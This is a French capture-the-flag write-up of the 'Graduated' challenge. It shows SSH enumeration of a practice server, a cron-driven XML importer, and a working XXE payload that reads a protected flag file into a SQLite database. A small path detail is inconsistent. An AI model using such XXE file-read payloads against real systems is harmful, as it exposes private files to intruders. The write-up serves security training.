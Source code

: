 # Graduated - 256 pts

C'est le dernier challenge système.

Énoncé :

> Vous avez raté votre examen de PHP. Cheh!
>  Furieux, vous avez décidé de prouver vos compétences en modifiant directement votre note sur le serveur de votre école. 
>  Vous avez réussi à compromettre les identifiants de votre professeur absent. 
>
>  === Connexion SSH ===
>  Login : `teacher`
>  Mdp :  `teacher`
>  Serveur :` graduated.phack.fr`
>
>  Artiste : `@Eagleslam`

```
$ ssh teacher@graduated.phack.fr

 Bienvenue !

 Le flag se trouve dans /home/rector/flag.txt
 Malheureusement, tu n'as pas les droits de le lire.

 Trouves un moyen d'y accéder par toi même.

 Bonne chance...


...............
$ cat note.txt 
------------------


Cher professeur,

Merci de saisir les notes de vos élèves dans la base de données dans les plus brefs délais car la fin du trimestre approche.

PS:
M. DUPONT est toujours absent. Nous lui recherchons un remplaçant au plus vite.

Bon courage,
Votre recteur.


------------------
```

Voyons voir le contenu de notre home :

```
$ ls -lRa
.:
total 36
drwxr-sr-x    1 teacher  nogroup       4096 Apr  9 13:55 .
drwxr-xr-x    1 root     root          4096 Apr  1 23:09 ..
-rw-------    1 teacher  nogroup        664 Apr  9 13:55 .bash_history
drwxrwxrwx    1 teacher  root          4096 Apr  9 13:55 evaluations
-r--r--r--    1 rector   root           304 Apr  1 22:56 note.txt
-r--r--r--    1 root     root           462 Apr  1 22:56 template.xml

./evaluations:
total 20
drwxrwxrwx    1 teacher  root          4096 Apr  9 13:55 .
drwxr-sr-x    1 teacher  nogroup       4096 Apr  9 13:55 ..
drwxr-xr-x    2 rector   nogroup       4096 Apr  9 13:55 done

./evaluations/done:
total 16
drwxr-xr-x    2 rector   nogroup       4096 Apr  9 13:55 .
drwxrwxrwx    1 teacher  root          4096 Apr  9 13:55 ..
$ cat template.xml 
<?xml version="1.0" encoding="utf-8"?>

<evaluation>
  <student>
    <firstname>Xavier</firstname>
    <lastname>DUPONT DE L</lastname>
  </student>
  <grade>15</grade>
  <subject>Biologie</subject>
  <teacher>
    <firstname>Emile</firstname>
    <lastname>LOUIS</lastname>
  </teacher>
  <comment>Elève motivé et consciencieux. Ne parle pas beaucoup avec les autres étudiants. Attention : Absence en cours depuis plusieurs semaines.</comment>
</evaluation>

```

De même pour le recteur :

```
$ cd /home/rector/
$ ls -lRa
/home/rector/:
total 2184
drwxr-sr-x    1 rector   nogroup       4096 Apr  9 13:55 .
drwxr-xr-x    1 root     root          4096 Apr  1 23:09 ..
-r--------    1 rector   root            39 Apr  1 22:56 flag.txt
-rw-r--r--    1 rector   nogroup      12288 Apr  9 13:55 graduation.db
-rw-r--r--    1 rector   root       2187461 Apr 10 19:38 integrator.log
-r-xr-----    1 rector   root          4708 Apr  1 22:56 integrator.py
$ strings graduation.db 
SQLite format 3
Ytablesqlite_sequencesqlite_sequence
CREATE TABLE sqlite_sequence(name,seq)
ytableevaluationsevaluations
CREATE TABLE evaluations
                         (ID INTEGER PRIMARY KEY  AUTOINCREMENT,
                         SUBJECT       TEXT    NOT NULL,
                         GRADE         INT     NOT NULL,
                         COMMENT       TEXT            ,
                         TEACHER       TEXT    NOT NULL,
                         STUDENT       TEXT    NOT NULL)
$ cat integrator.log
[...]
10/04/2021 19:38:01	[+] Lancement de l'intégration
10/04/2021 19:38:01	[+] Analye des fichiers dans "/home/teacher/evaluations/".
10/04/2021 19:38:01	[+] Intégration terminée


10/04/2021 19:39:01	[+] Lancement de l'intégration
10/04/2021 19:39:01	[+] Analye des fichiers dans "/home/teacher/evaluations/".
10/04/2021 19:39:01	[+] Intégration terminée


10/04/2021 19:40:01	[+] Lancement de l'intégration
10/04/2021 19:40:01	[+] Analye des fichiers dans "/home/teacher/evaluations/".
10/04/2021 19:40:01	[+] Intégration terminée
```

Il semblerait qu'une tâche cron exécute `integrator.py` toutes les minutes mais on ne voit pas le code en question. Essayons de copier le template dans le répertoire suggéré par les logs :

```
$ cd
$ cp template.xml evaluations/
$ tail -f ../rector/integrator.log 
10/04/2021 19:43:01	[+] Lancement de l'intégration
10/04/2021 19:43:01	[+] Analye des fichiers dans "/home/teacher/evaluations/".
10/04/2021 19:43:01	[+] Intégration terminée


10/04/2021 19:44:01	[+] Lancement de l'intégration
10/04/2021 19:44:01	[+] Analye des fichiers dans "/home/teacher/evaluations/".
10/04/2021 19:44:01	[+] Intégration terminée

10/04/2021 19:45:01	[+] Lancement de l'intégration
10/04/2021 19:45:01	[+] Analye des fichiers dans "/home/teacher/evaluations/".
10/04/2021 19:45:01	[+] Fichier "template.xml" en cours d'analyse.
10/04/2021 19:45:01	[+] Nouvelle évaluation ajoutée.
10/04/2021 19:45:01	[+] Fichier "template.xml" analysé.
10/04/2021 19:45:01	[+] Intégration terminée

^C
$ strings ../rector/graduation.db 
SQLite format 3
Ytablesqlite_sequencesqlite_sequence
CREATE TABLE sqlite_sequence(name,seq)
ytableevaluationsevaluations
CREATE TABLE evaluations
                         (ID INTEGER PRIMARY KEY  AUTOINCREMENT,
                         SUBJECT       TEXT    NOT NULL,
                         GRADE         INT     NOT NULL,
                         COMMENT       TEXT            ,
                         TEACHER       TEXT    NOT NULL,
                         STUDENT       TEXT    NOT NULL)
!#1Biologie
ve motiv
 et consciencieux. Ne parle pas beaucoup avec les autres 
tudiants. Attention : Absence en cours depuis plusieurs semaines.Emile LOUISXavier DUPONT DE LT
```

Le contenu est ajouté dans le fichier base de données. Il suffit donc de créer un fichier XML avec une entité externe qui va lire le contenu du flag :

```xml
<?xml version="1.0" encoding="utf-8"?>
<!DOCTYPE test [
    <!ENTITY xxe SYSTEM "file:///home/rector/flag.txt">
  ]>

<evaluation>
  <student>
    <firstname>Xavier</firstname>
    <lastname>DUPONT DE L</lastname>
  </student>
  <grade>20</grade>
  <subject>Biologie</subject>
  <teacher>
    <firstname>Emile</firstname>
    <lastname>LOUIS</lastname>
  </teacher>
  <comment>&xxe;</comment>
</evaluation>
```

On sauvegarde ça dans `/home/teacher/evaluations/done/eval.xml` et on patiente un peu...

```
$ strings ../rector/graduation.db | grep PHACK
PHACK{XmL_3x7Ern4l_3n7i7iEs_fr0m_b4sH}
```



Première fois que j'arrive à finir les challenges de la catégorie *Sytème*, il faut croire que les cours de système d'exploitation et d'Unix ne sont pas vains ;)